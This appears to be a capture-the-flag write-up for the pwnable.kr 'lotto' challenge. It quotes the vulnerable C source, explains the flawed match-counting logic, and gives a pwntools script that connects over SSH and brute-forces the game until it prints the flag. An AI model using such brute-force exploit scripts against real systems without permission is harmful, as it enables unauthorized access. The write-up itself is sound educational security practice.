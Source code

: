 Some lotto!

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
unsigned char submit[6];

void play(){
	
	int i;
	printf("Submit your 6 lotto bytes : ");
	fflush(stdout);

	int r;
	r = read(0, submit, 6);

	printf("Lotto Start!\n");
	//sleep(1);

	// generate lotto numbers
	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1){
		printf("error. tell admin\n");
		exit(-1);
	}
	unsigned char lotto[6];
	if(read(fd, lotto, 6) != 6){
		printf("error2. tell admin\n");
		exit(-1);
	}
	for(i=0; i<6; i++){
		lotto[i] = (lotto[i] % 45) + 1;		// 1 ~ 45
	}
	close(fd);
	
	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}

}

void help(){
	printf("- nLotto Rule -\n");
	printf("nlotto is consisted with 6 random natural numbers less than 46\n");
	printf("your goal is to match lotto numbers as many as you can\n");
	printf("if you win lottery for *1st place*, you will get reward\n");
	printf("for more details, follow the link below\n");
	printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
	printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

	// menu
	unsigned int menu;

	while(1){

		printf("- Select Menu -\n");
		printf("1. Play Lotto\n");
		printf("2. Help\n");
		printf("3. Exit\n");

		scanf("%d", &menu);

		switch(menu){
			case 1:
				play();
				break;
			case 2:
				help();
				break;
			case 3:
				printf("bye\n");
				return 0;
			default:
				printf("invalid menu\n");
				break;
		}
	}
	return 0;
}
```

Let's inspect the `play` function more closely.

- Reads 6 bytes from fd #0 (stdtin) and saves it in `submit`
- Reads 6 bytes from `/dev/urandom` and saves it in `lotto`
- Compare each character from `submit` to each character in `lotto`, if a match occurs, increment the counter by 1
- If the counter equals to 6 exactly, `cat` our flag, elsewise just print and function ends.

The solution here just relies on the fact that before calculating the lotto score, the game perfoms a modulo on the `lotto` array and just minimizes the range of the characters to be [1, 45].
If we give the game a string of the same characters we have a chance of 6/45 of succeeding, which is not likely but who said we cannot just try <b>A LOT</b> of times? At the end we only need to succeed once, but may fail infinite times.

I wrote a script for this:
```python
import pwn

GUESS = b"\x01\x01\x01\x01\x01\x01"

# SSH into the machine
r = pwn.ssh("lotto", "pwnable.kr", 2222, "guest")
p = r.process("./lotto")
while True:
    # Receive output and send '1' to play game
    p.recv()
    p.sendline(b"1")

    # Receive output and send our guess
    p.recv()
    p.sendline(GUESS)

    # We don't care about the "Lotto Start!\n" printf
    p.recvline()

    # Get the output, it should either be "bad luck" or our flag
    trial_ret = p.recvline()
    if b"bad luck" not in trial_ret:
        print(trial_ret.rstrip())
        break

p.close()
r.close()
```
